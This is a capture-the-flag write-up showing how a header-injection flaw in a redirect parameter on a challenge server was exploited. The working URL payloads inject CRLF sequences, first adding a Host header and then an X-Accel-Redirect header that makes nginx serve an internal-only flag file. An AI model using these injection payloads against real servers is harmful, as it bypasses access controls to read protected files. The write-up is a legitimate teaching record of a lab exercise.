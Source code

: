 The interesting bits are highlighed:

```lang-bash line-numbers 
location = /secret/flag {
    root /home;
    internal;
}
```

Look like the flag is located at http://109.233.61.11:27280/secret/flag but only internal requests will get through. This looks like a SSRF task but in the end it was something completly different.

At the same time we found that the return link was vulnerable to Header Manipulation:

```lang-bash line-numbers 
http://109.233.61.11:27280/?retpath=/news
```

The above URL generates a redirect to **news**

```lang-bash line-numbers 
HTTP/1.1 307 TEMPORARY REDIRECT
Server: nginx/1.1.19
Date: Sun, 09 Feb 2014 17:07:47 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: keep-alive
Location: /news
```

And

```lang-bash line-numbers 
http://109.233.61.11:27280/?repath=/secret/flag%0d%0aHost:%20127.0.0.1
```

generated:

```lang-bash line-numbers 
HTTP/1.1 307 TEMPORARY REDIRECT
Server: nginx/1.1.19
Date: Sun, 09 Feb 2014 17:10:22 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: keep-alive
Location: /secret/flag
Host: 127.0.0.1
```

However that was not enough to trick nginx.

After researchig about Nginx we found out that it has a similar feature as [Apache mod_xsendfile](https://tn123.org/mod_xsendfile/) called [X-Accel module](http://wiki.nginx.org/X-accel) that provides internal redirects. So basically nginx will intercept the responses and if it contains the X-Accel-redirect header, it will request the resource specified in the header and return the response back to the user. With that we were able to use the header manipulation vulnerability to craft the following request:

```lang-bash line-numbers 
http://109.233.61.11:27280/?retpath=/%0D%0AX-Accel-Redirect%3A%20/secret/flag
```
